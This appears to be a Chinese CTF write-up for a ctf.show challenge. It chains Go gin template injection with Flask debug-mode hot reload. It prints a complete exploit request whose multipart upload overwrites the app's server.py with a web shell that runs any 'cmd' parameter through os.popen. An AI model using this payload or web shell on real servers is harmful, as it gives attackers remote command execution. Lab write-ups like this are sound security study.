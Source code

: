 flask 开了 debug 模式后, 在 debug 模式下 flask 会动态更新源码的内容“热更新”，所以思路是通过 `FormFile`和 `SaveUploadedFile`上传文件覆盖掉之前的 flask 源码。

> debug攻击点一般采用算pin和debug热加载，这里尝试过算pin发现不能携带cookie，不能直接命令执行，所以使用热加载。

最后因为模版编译前会通过 html 编码把单双号转义, 所以需要换个方式传入字符串，发现 `gin.Context`里面包装了 `Request`和 `ResponseWriter`, 这里随便找了个 `Request.UserAgent()`

```plain
// UserAgent returns the client's User-Agent, if sent in the request.
func (r *Request) UserAgent() string {
    return r.Header.Get("User-Agent")
}
```

文件上传server.py覆盖原来的代码，然后访问修改后的路由，flask在处理的时候发现内存中的代码和源码中不同则会自动重启，这样我们就能构造恶意代码了

最终 payload

```plain
/admin?name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&自己的ip=/app/server.py HTTP/1.1 //自己的ip可以通过模板注入{{c.ClientIP()}}查看
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent:  /app/server.py
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: 545

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```
